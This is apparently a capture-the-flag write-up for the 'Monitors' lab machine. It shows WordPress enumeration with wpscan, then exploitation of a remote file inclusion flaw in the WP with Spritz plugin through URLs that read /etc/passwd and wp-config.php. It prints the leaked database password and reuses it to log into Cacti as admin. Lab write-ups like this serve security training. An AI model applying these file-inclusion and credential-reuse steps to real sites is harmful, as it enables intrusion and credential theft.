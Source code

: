 ```sh
$ wpscan --url http://monitors.htb/ -e ap,at,tt,cb,dbe,u1-10,m1-10 --plugins-detection mixed
```

Among the results is the "spritz" plugin

```
[i] Plugin(s) Identified:                                                          > (811 / 95035)  0.85%  ETA: 00:36:30
[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 | Readme: http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
 | [!] Directory listing is enabled
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/, status: 200
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
```

Looking up `spritz` with `searchsploit` gives us a remote file inclusion vulnerability.

```
WordPress Plugin WP with Spritz 1.0 - Remote File Inclusion                          | php/webapps/44544.php
```

Trying the provided PoC URL, we're able to read `/etc/passwd` with `http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/etc/passwd`, and with that we also have the user "marcus" who has a shell on the machine. We can then grab `wp-config.php` with `http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php`. Inside that we have credentials for the database.

```php
/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
```

I tried using the password to SSH in as "www-data" and "marcus" but to no avail.

Checking [other interesting files](https://book.hacktricks.xyz/pentesting-web/file-inclusion#linux), I found that `/etc/apache2/sites-enabled/000-default.conf` contains a new sub-domain.

```
# Add cacti-admin.monitors.htb.conf
```

Going there, we have cacti. [I tried the default credentials but it doesn't work because admins are asked to change the password upon first login](https://www.mxwiki.com/password/cacti/cacti-default-admin-password). We can, however, use the password previously found in `wp-config.php` to log in as "admin".
